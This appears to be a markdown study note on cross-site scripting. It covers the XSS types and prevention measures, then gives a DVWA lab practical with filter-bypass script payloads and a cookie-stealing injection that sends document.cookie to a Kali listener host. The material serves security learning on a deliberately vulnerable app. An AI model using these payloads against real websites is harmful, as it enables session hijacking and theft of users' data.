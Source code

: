 ## Cross Site Scripting (XSS): `Using JS Language`
- Allows attackers to inject malicious scripts into web pages viewed by other users. These scripts can execute in the context of the victim's browser, leading to theft of sensitive information, session hijacking, or defacement of websites. `User get affected, Not the Servers`

## Types:
- Reflected XSS: Malicious script is reflected off a web server and executed in the victim's browser `when a user visits a specially crafted link or submits a form.`
- `Stored XSS: Malicious script is stored on the server` (e.g., in a database) and executed in the victim's browser when they access the compromised page containing the script.
- DOM-based XSS: Malicious script is injected into the Document Object Model (DOM) of a web page and executed by the victim's browser, often as a result of client-side JavaScript manipulating user-controlled data without proper validation.

## Example:
- An attacker injects a malicious `script into a comment field on a blog website`. When other users view the comment section, the script executes in their browsers, stealing their session cookies and sending them to the attacker.

Prevention:
```
Input Validation: Validate and sanitize user input to prevent the injection of script tags and other malicious content.
Output Encoding: Encode user-generated content before rendering it in web pages to ensure that any HTML, JavaScript, or other potentially dangerous characters are displayed as plain text.
HTTPOnly Cookies: Set the HTTPOnly flag on cookies to prevent client-side scripts from accessing them, reducing the risk of session hijacking.
Content Security Policy (CSP): Implement CSP headers to restrict the sources from which scripts can be executed, mitigating the impact of XSS attacks by blocking unauthorized scripts.
Use XSS Filters: Employ web application firewalls or browser-based XSS filters to detect and block malicious script injections at the network or browser level.
```


## Practical:
1. Open DVWA > Security:Low > Inject Js code: `<script>alert('Hi')</script>` > Pop-Up: Hi > Vulnerable to XSS.
2. Open DVWA > Security:Mid > Inject Js code: `<SCRIPT>alert('Hi')</SCRIPT>` > Pop-Up: Hi > Vulnerable to XSS.
3. Open DVWA > Security:Mid > Inject Js code: `<scr<script>ipt>alert('Hi')</script>` > Pop-Up: Hi > Vulnerable to XSS.

4. Open DVWA > Security:Mid > Inject Js code: `'<SCRIPT>'document.write('<img src="http://<kali-VM-IP>:12345/' + document.cookie + ` ">`); </SCRIPT>`
Listen on the Kali VM: `python -m http.server 12345`

> the seesion details will show here in the Terminal.


























